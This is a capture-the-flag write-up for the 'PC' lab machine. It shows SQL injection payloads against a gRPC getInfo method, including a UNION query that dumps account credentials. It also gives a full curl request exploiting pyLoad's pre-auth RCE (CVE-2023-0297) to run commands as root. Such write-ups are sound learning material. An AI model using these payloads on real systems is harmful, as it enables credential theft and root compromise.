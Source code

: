 # PC

## Inital Foothold

Nmap port scan indicated two open ports: 22/ssh and 50051.
Google search for port 50051 revealed that this is a gRPC port.
![Port 50051](image.png)

I used [grpcui](https://github.com/fullstorydev/grpcui) to explore the gRPC service.
The application provides a web interface to interact with the gRPC service.
![grpcui](image-1.png)

The application is vulnerable to SQL injection in the `id` parameter of the `getInfo` method.
The following payload proofes the vulnerability:
```123456 or 1=1; --```


## User flag

Exploring the sqli vulnerability further with burp, I found that the application runs a sqlite database.
I finally extracted all data from the accounts table using the payload `1 and 1=2 union SELECT GROUP_CONCAT(username || ':' || password) from accounts; --`
![Leaked accounts table](image-2.png)
This revealed the credentials of the user `sau:HereIsYourPassWord1431`.
I used these credentials to login via ssh and got the user flag.

## Root flag

After uploaden `pyspy` to the machine, I found that the application runs an instance of [pyload](https://pyload.net/) as root.
The server is listening on `127.0.0.1:8000`.
Pyload is [vulnerable to RCE](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad) in version `0.5.0`.
The vulnerability can be triggered without authentication by sending the following POST data.
It executed the command `cp /root/root.txt /tmp/root.txt` on the machine as root user:

```bash
curl -i -s -k -X $'POST'     --data-binary $'jk=pyimport%20os;os.system(\"cp /root/root.txt /tmp/root.txt\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa'     $'http://127.0.0.1:8000/flash/addcrypted2'
```
